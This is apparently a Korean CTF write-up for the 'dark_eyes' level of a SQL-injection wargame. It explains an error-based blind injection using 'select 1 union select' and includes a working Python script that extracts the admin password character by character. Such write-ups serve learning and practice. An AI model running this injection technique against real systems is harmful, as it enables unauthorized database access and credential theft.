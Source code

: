 Iron_golem에서 사용했던 방법은 조건이 참이면 Subquery 에러를 발생시켜 값을 검증하는 것이었다.<br>
하지만 **if**를 사용할 수 없고 에러가 출력되지 않으니 다른 방법을 사용해야한다.

![mysql-test](/assets/img/post/mysql-test.png)

mysql을 사용해 test 해보니 **select 1 union select [조건]** 에서 조건이 참이면 행이 하나만 출력된다.<br>
이를 이용해서 악의적인 쿼리가 참인 경우에만 오류가 나지 않도록 만든다.
```python
import requests
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for len in range(100):
  param = {'pw': f"' or id='admin' and pw=(select 1 union select length(pw) = {len})#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "select id from prob_dark_eyes where" in res.text:
    print(len)
    break

length = 8
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    param = {'pw': f"' or id='admin' and pw=(select 1 union select ord(substr(pw,{str(len)},1))={str(pw)})#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    if "select id from prob_dark_eyes where" in res.text:
      password += chr(pw)
      break
        
print(password.lower())
```
<br>
